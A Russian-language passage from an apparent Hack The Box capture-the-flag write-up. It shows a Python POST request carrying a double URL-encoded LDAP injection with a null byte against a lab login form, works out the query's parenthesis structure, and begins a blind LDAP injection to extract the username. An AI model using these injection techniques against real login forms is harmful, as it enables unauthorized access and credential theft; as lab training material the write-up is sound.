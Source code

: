 ```python
# Данные для POST-запроса (библиотека requests закодирует значения повторно => получится Double URL Encoding)
data = {
	'inputUsername': inject + null_byte,
	'inputOTP': '31337'
}

# Отправляем запрос
resp = requests.post(URL, data=data)

# Регулярками вытаскиваем ответ сервера
match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)

# И выводим его на экран
print(match.group(1).strip())
```

Теперь нам предстоит найти количество скобок, необходимое для того, чтобы измененный LDAP-запрос оказался «правильным». Начнем с одной, добавляя в конце нулевой символ для отбрасывания оставшийся части оригинального запроса. Потом попробуем две, затем — три.

![parentheses.png]({{ "/img/htb/boxes/ctf/parentheses.png" | relative_url }})
{: .center-image}

На трех скобках сервер сообщил, что не знает такого пользователя, поэтому делаем вывод, что, на самом деле, структура оригинального LDAP-запрос имеет примерно такой вид.

```
(&
	(&
		(key1=value1)
		(key2=value2)
		(key3=value3)
	)
	(&
		(key4=value4)
		...
	)
	...
)
```

Отлично! Мы выяснили, что форма `/login.php` уязвима к LDAP-инъекции и сделали предположение о структуре LDAP-запроса. Используем это для стилинга авторизационных данных.

### Дампим юзернейм

Чтобы вытащить из базы имя пользователя, будем пользоваться символом `*`, который успешно обрабатывыается сервером. Сделаем предположение, что юзернейм начинается, например, с буквы «a», тогда поведение формы при обработке запроса вида `a*` позволит определить, верно ли наше предположение. Так как мы можем судить о корректности наших суждений только по возвращаемым сообщениям об ошибках, то на лицо классическая инъекция «вслепую» или Blind LDAP-инъекция.
